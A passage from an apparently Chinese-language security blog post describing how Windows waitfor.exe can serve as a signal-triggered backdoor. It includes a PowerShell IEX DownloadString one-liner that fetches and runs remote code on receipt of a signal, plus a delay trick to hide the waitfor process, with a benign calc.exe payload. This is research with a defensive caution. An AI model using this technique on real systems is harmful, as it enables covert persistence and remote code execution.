 ![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-6-7/1-1.gif)

**注：**

更多基本介绍可参照微软官方文档，链接如下：

https://technet.microsoft.com/en-us/library/cc731613(v=ws.11).aspx


## 0x03 利用思路
---

根据以上的基本介绍，最直观的认识，waitfor可被当作后门来使用


Daniel Bohannon‏ @danielhbohannon在twitter上分享了他的利用思路：将waitfor接收信号后的操作设置为从远程服务器下载powershell代码并执行

地址如下：

https://twitter.com/danielhbohannon/status/872258924078092288

细节如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-6-7/2-2.png)

此外，他还提到了一个有趣的技巧：如果将powershell代码设置为延期执行，那么接收信号后，后台将不存在进程waitfor.exe

我验证了这个结论，方法如下：

**开启等待模式：**

cmd：

`waitfor test1 && && powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/3gstudent/test/master/calc2.ps1')`


**发送信号：**

cmd：

`waitfor /s 127.0.0.1 /si test1`


https://raw.githubusercontent.com/3gstudent/test/master/calc2.ps1的内容如下：

```
Start-Sleep -Seconds 10;
start-process calc.exe;
```

当成功接收信号后，进程waitfor.exe退出

接着执行powershell脚本，等待10秒再启动calc.exe

这10秒内，只存在进程powershell.exe

也就是说，如果把等待时间设置更长，那么再这一段等待时间内不存在进程waitfor.exe，提醒防御者注意这个细节

## 0x04 POC细节
---
